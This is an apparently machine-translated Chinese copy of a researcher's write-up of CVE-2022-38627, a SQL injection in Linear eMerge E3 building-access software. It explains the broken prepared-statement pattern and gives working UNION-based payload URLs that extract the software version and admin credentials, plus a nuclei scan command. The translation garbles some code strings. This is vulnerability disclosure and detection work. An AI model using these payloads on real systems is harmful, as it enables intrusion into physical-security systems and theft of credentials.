







# CVE-2022-38627:通过 SQLite 注入来折衷整个企业构建的旅程

> 原文：<https://infosecwriteups.com/cve-2022-38627-a-journey-through-sqlite-injection-to-compromise-the-whole-enterprise-building-15cebd072ed6?source=collection_archive---------0----------------------->

## 简介:

在这项研究中，我将向您展示我是如何设法找到这一关键的 0 天，使我能够控制整个企业大楼(门、摄像头、电梯等)。除此之外，我还可以收集员工数据，并添加有权进入企业大楼的新员工，所有这些都不包括严重的 SQL 注入漏洞的自然影响

实际上，在这项研究中，你将看到黑客攻击电影场景的实现，而不是现实生活中的场景

## 线性浮现 E3 系列产品概述:

线性浮现 E3 系列是建筑管理系统中的行业领先产品之一，因为它是控制行业中使用最广泛的产品之一

*   学区和校园(K12 和高等教育)
*   企业园区
*   州/地方政府建筑(市政中心、市政厅、警察局、监狱等。)
*   公用事业
*   交通(机场、地铁、公共汽车站)
*   礼拜场所(教堂、大型教堂校园)
*   医疗设施(医院、制药公司、生物实验室等。)
*   更多

## 让我们开始静态分析:

我遇到了这个 endpoint/badging/badge _ template _ print . PHP，所以让我们来看看代码

正如您所看到的，开发人员通过“idt”参数获取用户输入，然后使用 prepare 语句将其传递给查询，这应该可以防止 SQL 注入

但是等一下，这里有一个错误的 prepare 语句实现，要知道哪里出错了，我们需要先了解什么是(prepare 语句工作流)

# 准备好的语句如何工作:

预处理语句处理工作流经过 7 个阶段

**准备 SQL 查询处理的语句阶段**

*它简单地将查询传递给数据库，就像这样*

> *$ sth = $ db--> prepare(" SELECT * FROM " . dbtable . " where No =？");*

*因为问号被称为参数占位符*

*因此，在准备好的语句下，查询将经过 7 个阶段:*

***1-解析阶段:**解析语法错误和拼写错误，以确保 SQL 查询的有效性*

***2-语义检查阶段:**数据库管理系统(DBMS)确定查询的有效性。指定的列和表是否存在？用户是否有执行此查询的权限？*

***3-绑定阶段:**数据库引擎检测占位符，使用占位符编译查询。用户提供的数据将在稍后添加(类似占位符替换阶段)。*

> *$sth->bindValue(1，$id，PDO::PARAM _ INT)；*

***4-查询优化** **阶段:**DBMS 选择执行查询的最佳算法。*

***5-缓存** **阶段:**最佳算法保存在缓存中，因此下次执行相同的查询时，它将跳过前四个阶段，直接跳到占位符替换阶段*

***6-占位符替换** **阶段:**在此阶段，占位符被替换为用户的数据。但是，查询已经被预先编译好了(**绑定**)，所以最终的查询不会再经过编译阶段。因此，用户提供的数据将始终被解释为简单的字符串，不能修改原始查询的逻辑。这使得查询不会受到该数据的 SQL 注入漏洞的影响。*

***7-执行阶段:***

> *$ sth-> execute()；*

*最后，查询成功执行*

*这些是准备好的语句为防止 SQL 注入而要经过的阶段*

*所以让我们再来看看这里发生了什么*

**

*开发人员将来自用户的$id 参数放入准备好的语句中，而不是像我上面描述的那样绑定值，所以如果用户输入参数是这样的*

> *？id=1 UNION SELECT * FROM User*

*那么$sth 变量值将是这样的*

> *$ db--> prepare(" SELECT * FROM User，其中 No=1 UNION SELECT * FROM User ")*

*因此，准备好的语句将把我们的输入作为查询的一部分(不认为它是绑定值),并且用户输入将通过从第一阶段开始的所有阶段，这意味着用户输入将被认为是查询的一部分，因为 SQL 编译器将把它编译为查询的一部分，并且不会被认为是绑定值，因为它是从第一阶段而不是在第六阶段(占位符替换)在查询中传递的，这将导致成功的 SQLI*

**

*$xml 变量是通过使用参数“tpl”加载 xml 文件*

*首先“if 语句”迫使我们加载一个包含<picture>标签的 XML 文件，因为开发人员为此创建了这个 XML 文件“aa.xml ”,所以我们需要做的只是将文件名放入“tpl”参数中？tpl=aa.xml</picture>*

*我们需要将第二个“if 语句”设置为 false 来执行，否则将打印页面中的“ImageFile”列来提取数据库内容*

*因此，在我们的开发中，我们需要连接 ImageFile 列上的输出，因为这是提取数据库的可能方式*

## *剥削:*

*因为我已经访问了源代码和数据库，所以我知道 ImageFile 列是“User”表的 39 列中的第 12 列，所以我们不需要像利用黑盒 SQL 注入那样利用它*

*因此，我们将使用基于联合的有效负载来利用它，因此我们需要连接第 12 列的输出，并用空值定义其他 38 列*

> */badging/badge _ template _ print . PHP？tpl=aa.xml&idt=1337 UNION SELECT 空，空，空，空，空，空，空，空，空，空，' SWVersion:'||SWVersion，空，空，空，空，空，空，空，空，空，空，空，空，空，空*

*输出将是版本表中的软件版本，因此我在第 12 列连接了输出，这将使输出看起来像这样*

*软件版本:<software version="" will="" be="" printed="" here=""></software>*

**

*提取管理员凭证怎么样*

> */badging/badge _ template _ print . PHP？TPL = aa . XML & IDT = 1337 union select NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，' Admin-ID-is:' | | ID | | ' % 20 Admin-Password-is:' | | Password，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL，NULL*

**

*获得管理员凭据后，我可以使用它们登录，从 web 仪表板控制整个企业建筑*

## *自动化:*

*为了检测漏洞，我制作了这个 nuclei 模板来扫描您的 bug bounty 程序或您的企业资产*

*您可以在我的安全研究资料库中找到它:*

*https://github . com/omarhashem 123/Security-Research/tree/main/CVE-2022-38627*

> *┌──(omar㉿kali)-[~]
> └─$原子核-t CVE-2022–38627 . YAML-l 子域名. txt*

**

*在这一点上，我们刚刚到达结束，所以我希望你们喜欢*

# *保持联络*

*推特: [@OmarHashem666](https://twitter.com/OmarHashem666)*

*领英:【https://www.linkedin.com/in/omar-1-hashem *

*YouTube:[https://www.youtube.com/@omarhashem7351](https://www.youtube.com/@omarhashem7351)*